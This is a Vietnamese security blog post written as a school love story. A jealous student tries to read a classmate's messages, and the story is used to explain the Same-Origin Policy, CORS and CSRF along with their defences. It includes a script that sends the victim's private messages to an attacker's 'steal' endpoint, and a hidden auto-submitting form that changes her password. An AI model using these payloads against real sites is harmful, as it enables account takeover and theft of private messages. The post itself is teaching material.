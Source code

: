 ﻿---
url: [/post/cors-ca-the-gioi-tru-cau]
title: "CORS - Cả thế giới, trừ cậu"
$attribute: PostMetadata(Id = 1, Title = "CORS - Cả thế giới, trừ cậu", Category = "Bảo mật", LastModified = "08-10-2025")
$layout: BlogContentLayout
---

Vào một buổi chiều cuối thu, gió heo may len lỏi qua kẽ lá mang theo chút se lạnh 
của cơn mưa đầu mùa. M tựa vào lan can tầng hai, mắt vô định 
dõi xuống khoảng sân quen thuộc. Ở góc ghế đá cũ, N đang cúi đầu nhìn điện thoại, 
mái tóc đen ngang vai rủ xuống che nửa khuôn mặt. 

Họ quen biết nhau từ năm lớp mười trong một buổi học nhóm. N khi ấy đang loay hoay 
với một bài toán khó. M nhìn thấy, ngập ngừng một chút rồi lén đẩy tờ giấy ghi lời giải về phía cô.  
Cô ngẩng lên, khẽ cười: "Cảm ơn nhé, cứu một mạng người đấy." 
Nụ cười ấy đã khiến trái tim cậu loạn nhịp. 

Những tháng ngày sau đó, qua những cuộc trò chuyện vu vơ ở căn tin, 
những lần chạm mắt ngắn ngủi trong giờ ra chơi, tình cảm của M lớn lên lặng lẽ, 
không lời tỏ bày, cậu dần chú ý đến từng cử chỉ nhỏ. 
Nó trở thành một thói quen, một phần trong nhịp sống của M mà chính cậu cũng không nhận ra. 

Nhưng chiều nay khác. Khóe môi N khẽ cong, ánh mắt sáng lên vì điều gì đó trên 
màn hình. M nheo mắt nhìn, và một cái tên hiện ra — D, người được nhiều bạn trong 
khối nhắc đến với sự ngưỡng mộ. Cậu đứng lặng. Họ đang trò chuyện với nhau qua 
*Hệ thống học tập trực tuyến* (`school-learning.edu.vn`) mà nhà trường vừa triển khai. 
Không cần biết họ đang nói gì, chỉ cần thấy nụ cười ấy thôi M cũng đã hiểu rõ mọi chuyện.

Đêm về, hình ảnh N cười với D cứ lặp lại trong đầu M như một đoạn phim không thể tắt. 
Cậu tự hỏi họ đang nói gì, họ thân đến mức nào. Và rồi, giữa dòng suy nghĩ 
hỗn loạn ấy, một ý tưởng nảy lên, một ý tưởng liều lĩnh, trẻ con và đầy sai trái: đọc trộm tin nhắn của N.

# Kế hoạch hoàn hảo   

Biết N mê xem phim, M đã thức trắng một đêm dựng một trang web xem phim 
với giao diện rất bắt mắt nhờ chút kiến thức ReactJS góp nhặt trên mạng. 
Rồi M nhét vào đó một đoạn JavaScript:
```javascript
fetch('https://school-learning.edu.vn/api/private-messages/N', {
  method: 'GET',
  credentials: 'include' // Gửi cả cookie của N
}).then(response => response.json())
  .then(data => {
    // Gửi tin nhắn lấy được về server của M
    fetch('https://phimhay.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

Ý tưởng của M rất đơn giản:
- Khi N truy cập vào trang web xem phim của M, đoạn mã JavaScript này sẽ chạy.
- Đoạn mã gửi một request đến school-learning.edu.vn để lấy tin nhắn 
(request này có kèm theo cookie đăng nhập của N). Server sẽ nghĩ đây là yêu cầu hợp lệ từ 
chính N, và dữ liệu sẽ được chuyển về tay M.
- Sau khi lấy được dữ liệu, nó gửi toàn bộ tin nhắn về server do M kiểm soát.

Sáng hôm sau, M hồi hộp mời N vào trang web: 
"Trang này có nhiều phim hay lắm, cậu thử xem đi!"

N mỉm cười cảm ơn và mở trang. M nín thở chờ đợi.

Nhưng rồi, trình duyệt hiện lên thông báo lỗi đỏ chói:

`
Access to fetch at 'https://school-learning.edu.vn/api/private-messages/N' 
from origin 'https://phimhay.com' has been blocked by CORS policy: 
No 'Access-Control-Allow-Origin' header is present on the requested resource.
`

Kế hoạch tan vỡ. M ngồi sụp xuống, nỗi thất vọng dâng trào như cơn mưa mùa thu bất chợt.

# Same-Origin Policy (SOP) - Bức tường thành của trình duyệt

Bực tức vì thất bại, M tìm đến K than thở, một đại cao thủ về bảo mật của trường.

Ngồi bên tách trà nóng trong căn phòng ký túc xá chật hẹp, K lắng nghe rồi cười nhẹ: 
"Cái này là do Same-Origin Policy (SOP). Nó là chính sách bảo mật của trình duyệt, 
ngăn không cho các script từ một origin đọc tài nguyên từ origin khác để 
tránh rò rỉ dữ liệu nhạy cảm."

K vẽ sơ đồ đơn giản trên tờ giấy nháp: "Một origin được xác định bởi 3 yếu tố:"
`Scheme (Giao thức) + Domain (Tên miền) + Port (Cổng) = Origin`

Ví dụ:

- https://phimhay.com và https://school-learning.edu.vn khác origin vì domain khác nhau
- http://phimhay.com và https://phimhay.com cũng khác origin vì scheme khác nhau
- https://phimhay.com:80 và https://phimhay.com:3000 cũng khác origin vì port khác nhau


"SOP đã ngăn đoạn script từ phimhay.com của mày đọc được response từ 
`school-learning.edu.vn`, dù request đó đã được gửi đi thành công."

# CORS - Cánh cổng có kiểm soát

M cau mày: "Vậy làm sao các trang web gọi API từ domain khác? Như trang phim của 
tao lấy dữ liệu từ TMDB?" K gật đầu, giọng đều đều như dòng suối chảy: 
"Đó là nhờ CORS – Cross-Origin Resource Sharing."

"CORS là một cơ chế cho phép server tự nguyện nói với trình duyệt rằng: 
'Tôi đồng ý cho origin kia truy cập tài nguyên của mình'.

Khi trình duyệt thấy script từ `phimhay.com` gọi API đến `school-learning.edu.vn`, 
nó sẽ gửi kèm một header `Origin: https://phimhay.com`. 
Nếu server đồng ý, nó trả response với Header:
```http
Access-Control-Allow-Origin: https://phimhay.com
Access-Control-Allow-Credentials: true
```

Chỉ lúc đó, trình duyệt mới cho phép đọc dữ liệu. 
"Nhưng server trường học sẽ không bao giờ cho phép domain lạ như của mày," 
K kết luận, khiến M thở dài một cách đầy thất vọng.

# CSRF - Cơ hội cuối cùng

M thở dài, nhung rồi ánh mắt lóe lên khi nhớ ra một điều: 
"Dù SOP ngăn đọc dữ liệu, nhưng tao vẫn có thể gửi request để yêu cầu server
thực hiện hành động."

K mỉm cười: "Mày nói đúng rồi đấy. Đây chính là cơ sở cho kĩ thuật tấn công 
CSRF - Cross-Site Request Forgery."

M hơi nghiêng đầu, nhíu mày, giọng lộ vẻ bối rối: 
"Mày nói rõ hơn được không?"

K gật đầu, giải thích chậm rãi: 
"Hãy tưởng tượng như ai đó giả mạo chữ ký của mày để ký một tờ giấy quan trọng 
thay mày vậy. Trang web xấu sẽ lợi dụng việc trình duyệt tự động gửi kèm cookie 
của nạn nhân đến một site khác, rồi thực hiện hành động thay mặt họ mà họ không hề hay biết." 

"Ví dụ, Nếu hệ thống trường có endpoint đổi mật khẩu đơn giản, 
mày có thể nhúng này form ẩn vào trang web của mình:"
```markup
<!-- Trên web xem phim https://phimhay.com của M -->
<form id="csrfForm" action="https://school-learning.edu.vn/change-password" method="POST" style="display:none">
    <input type="password" name="new_password" value="hacked123">
    <input type="password" name="confirm_password" value="hacked123">
</form>
<script>
    // Tự động submit form khi N truy cập trang
    document.getElementById('csrfForm').submit();
</script>
```

K giải thích tiếp: "Chỉ cần N truy cập trang web của mày, trình duyệt sẽ ngay 
lập tức gửi request đổi mật khẩu."

M mắt sáng lên, nhưng K lắc đầu: "Đừng vội mừng! Các trang web hiện đại đều có cơ chế phòng chống CSRF. 
Phổ biến nhất là CSRF Token - một chuỗi ngẫu nhiên ẩn trong form:

```markup
<!-- Form trên school-learning.edu.vn -->
<form action="https://school-learning.edu.vn/change-password" method="POST">
    <input type="password" name="new_password">
    <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6_random_string">
</form>
```


Server kiểm tra token này khi request được gửi đến và request thiếu token hợp lệ sẽ 
bị từ chối ngay. Và cũng do SOP nên mày cũng đừng mong đọc được token này. 

K giải thích thêm: "Ngoài token, các website còn có những cơ chế bảo vệ khác như: 
- Kiểm tra header Origin và Referer: Server sẽ kiểm tra xem request có thực sự 
đến từ domain của chính nó không.
- SameSite Cookie: Thuộc tính cookie có thể được đặt là `SameSite=Strict` 
hoặc `SameSite=Lax` để trình duyệt không gửi cookie trong các request chéo site.

M im lặng, nhận ra kế hoạch của mình chỉ là ảo mộng. 
Không lâu sau, hệ thống trường học gửi cảnh báo bảo mật về request bất thường 
trên tài khoản của N. Buổi chiều hôm ấy, N tìm đến M, cô nhìn cậu với ánh mắt cô lạnh lẽo như băng. 
"Có phải cậu đứng sau trang web xem phim đó không?" - N hỏi. 

M đứng lặng, mặt tái mét, không một lời biện minh. Lúc chiếc lá vàng cuối cùng rơi xuống 
sân cũng là lúc N quay lưng bỏ đi. M đứng đó, lòng đầy ân hận, nhận ra rằng những 
mánh khóe và thủ đoạn, dù tinh vi đến đâu cũng sẽ bị phơi bày.
